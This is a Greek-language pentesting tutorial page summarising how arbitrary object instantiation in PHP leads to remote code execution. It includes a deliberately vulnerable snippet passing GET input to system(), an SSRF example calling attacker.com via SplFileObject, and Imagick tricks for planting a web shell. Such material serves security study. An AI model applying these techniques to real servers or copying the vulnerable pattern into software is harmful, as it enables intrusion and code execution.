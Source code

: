 # PHP - RCE εκμετάλλευση δημιουργίας αντικειμένων: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Αυτό είναι βασικά μια περίληψη του [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Εισαγωγή

Η δημιουργία νέων αυθαίρετων αντικειμένων, όπως το `new $_GET["a"]($_GET["a"])`, μπορεί να οδηγήσει σε Remote Code Execution (RCE), όπως αναφέρεται σε μια [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Αυτό το έγγραφο επισημαίνει διάφορες στρατηγικές για την επίτευξη RCE.

## RCE μέσω Προσαρμοσμένων Κλάσεων ή Αυτοφόρτωσης

Η σύνταξη `new $a($b)` χρησιμοποιείται για την αρχικοποίηση ενός αντικειμένου όπου **`$a`** αντιπροσωπεύει το όνομα της κλάσης και **`$b`** είναι το πρώτο επιχείρημα που περνάει στον κατασκευαστή. Αυτές οι μεταβλητές μπορούν να προέρχονται από εισόδους χρηστών όπως GET/POST, όπου μπορεί να είναι συμβολοσειρές ή πίνακες, ή από JSON, όπου μπορεί να εμφανίζονται ως άλλοι τύποι.

Σκεφτείτε το παρακάτω απόσπασμα κώδικα:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Σε αυτή την περίπτωση, η ρύθμιση του `$a` σε `App` ή `App2` και του `$b` σε μια εντολή συστήματος (π.χ., `uname -a`) έχει ως αποτέλεσμα την εκτέλεση αυτής της εντολής.

**Οι συναρτήσεις αυτόματης φόρτωσης** μπορούν να εκμεταλλευτούν αν δεν υπάρχουν τέτοιες κλάσεις άμεσα προσβάσιμες. Αυτές οι συναρτήσεις φορτώνουν αυτόματα κλάσεις από αρχεία όταν χρειάζεται και ορίζονται χρησιμοποιώντας `spl_autoload_register` ή `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Η συμπεριφορά της αυτόματης φόρτωσης διαφέρει ανάλογα με τις εκδόσεις PHP, προσφέροντας διαφορετικές δυνατότητες RCE.

## RCE μέσω Ενσωματωμένων Κλάσεων

Λείποντας προσαρμοσμένες κλάσεις ή αυτόματους φορτωτές, **οι ενσωματωμένες κλάσεις PHP** μπορεί να είναι επαρκείς για RCE. Ο αριθμός αυτών των κλάσεων κυμαίνεται μεταξύ 100 και 200, ανάλογα με την έκδοση PHP και τις επεκτάσεις. Μπορούν να καταγραφούν χρησιμοποιώντας `get_declared_classes()`.

Οι κατασκευαστές που ενδιαφέρουν μπορούν να εντοπιστούν μέσω του reflection API, όπως φαίνεται στο παρακάτω παράδειγμα και στον σύνδεσμο [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Η RCE μέσω συγκεκριμένων μεθόδων περιλαμβάνει:**

### **SSRF + Phar Deserialization**

Η κλάση `SplFileObject` επιτρέπει SSRF μέσω του κατασκευαστή της, επιτρέποντας συνδέσεις σε οποιοδήποτε URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF μπορεί να οδηγήσει σε επιθέσεις αποσυμπίεσης σε εκδόσεις του PHP πριν από την 8.0 χρησιμοποιώντας το πρωτόκολλο Phar.

### **Εκμετάλλευση PDOs**

Ο κατασκευαστής της κλάσης PDO επιτρέπει συνδέσεις σε βάσεις δεδομένων μέσω DSN strings, ενδεχομένως επιτρέποντας τη δημιουργία αρχείων ή άλλες αλληλεπιδράσεις:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Οι εκδόσεις του PHP μέχρι 5.3.22 και 5.4.12 ήταν ευάλωτες σε επιθέσεις XXE μέσω των κατασκευαστών `SoapClient` και `SimpleXMLElement`, ανάλογα με την έκδοση του libxml2.

## RCE μέσω της Επέκτασης Imagick

Στην ανάλυση των **εξαρτήσεων ενός έργου**, ανακαλύφθηκε ότι η **Imagick** θα μπορούσε να χρησιμοποιηθεί για **εκτέλεση εντολών** δημιουργώντας νέα αντικείμενα. Αυτό προσφέρει μια ευκαιρία για εκμετάλλευση ευπαθειών.

### VID parser

Η δυνατότητα του VID parser να γράφει περιεχόμενο σε οποιαδήποτε καθορισμένη διαδρομή στο σύστημα αρχείων εντοπίστηκε. Αυτό θα μπορούσε να οδηγήσει στην τοποθέτηση ενός PHP shell σε έναν κατάλογο προσβάσιμο μέσω του διαδικτύου, επιτυγχάνοντας Remote Code Execution (RCE).

#### VID Parser + Αποστολή Αρχείων

Σημειώνεται ότι το PHP αποθηκεύει προσωρινά τα ανεβασμένα αρχεία στο `/tmp/phpXXXXXX`. Ο VID parser στην Imagick, χρησιμοποιώντας το **msl** πρωτόκολλο, μπορεί να χειριστεί χαρακτήρες μπαλαντέρ σε διαδρομές αρχείων, διευκολύνοντας τη μεταφορά του προσωρινού αρχείου σε μια επιλεγμένη τοποθεσία. Αυτή η μέθοδος προσφέρει μια επιπλέον προσέγγιση για την επίτευξη αυθαίρετης εγγραφής αρχείων στο σύστημα αρχείων.

### PHP Crash + Brute Force

Μια μέθοδος που περιγράφεται στην [**αρχική αναφορά**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) περιλαμβάνει την αποστολή αρχείων που προκαλούν μια κατάρρευση του διακομιστή πριν από τη διαγραφή. Με την εκτέλεση brute force στο όνομα του προσωρινού αρχείου, καθίσταται δυνατή η εκτέλεση αυθαίρετου PHP κώδικα από την Imagick. Ωστόσο, αυτή η τεχνική βρέθηκε ότι ήταν αποτελεσματική μόνο σε μια παλιά έκδοση του ImageMagick.

## Αναφορές

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
